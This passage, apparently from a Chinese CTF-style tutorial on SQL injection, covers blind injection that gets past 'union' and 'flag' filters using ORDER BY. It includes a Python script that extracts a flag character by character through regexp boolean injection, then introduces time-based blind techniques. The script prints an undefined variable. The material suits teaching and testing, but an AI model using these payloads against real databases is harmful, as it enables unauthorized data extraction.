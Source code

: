 再举个例子：

```plain
select username,flag,password from users where username='$username;'
```

页面回显的字段为：username与password，如何在`union`与`flag`两单词被拦截、无报错信息返回的情况下获取到用户名为`admin`的flag值？

使用`order by`可轻松盲注。payload：

```plain
select username,flag,password from users where username='admin' union select 1,'a',3 order by 2
```

与之前的原理相同，通过判断前后两个select语句返回的数据前后顺序来进行盲注数据

参考脚本

```python
import requests
# 定义一个flag取值的一个“范围”
dic = "1234567890qwertyuioplkjhgfdsazxcvbnmQWERTYUIOPLKJHGFDSAZXCVBNM_!@#$%^&*"
# 之所以不定义为空，而是“^”，是为了从头开始匹配
flag = "^"
# 目标url，先传“|1”，获取其数据的排列内容，作为一个对比的基准
url1 = "xxxxxxxxxxxxxx/index.php?x=|1"
content1 = requests.get(url1).content
# 这个flag的长度被定义为了50个字符长度
for i in range(50):
    # 从定义的dic中挨个取1字符，拼凑payload
    for letter in dic:
        payload = flag + letter
        #该url最后的“}%2b1”-->"}+1"
        url2 = "xxxxxxxxxxxxxx/index.php?x=|{select (select flag from flag表) regexp "+"'"+ payload +"'"+"}%2b1"
        print(url)
        # 获取实际注入后的排列内容
        content2 = requests.get(url2).content
        # 如果不相等，即为flag内容（为什么是不相等，而不是相等，因为在url2的最后又“+1”，即匹配成功则是“?dir=|2”，匹配不成功则是“?dir=|1”）
        if(content1 != content2):
            flag = payload
            print(flag)
            break
```



#### *时间盲注：*



通过判断页面**返回内容的响应时间差异**进行条件判断。



通常可利用的产生时间延迟的函数有：***sleep()、benchmark()***，还有许多进行**复杂运算的函数**也可以当做延迟的判断标准、**笛卡尔积合并数据表、GET_LOCK双SESSION产生延迟**等方法。


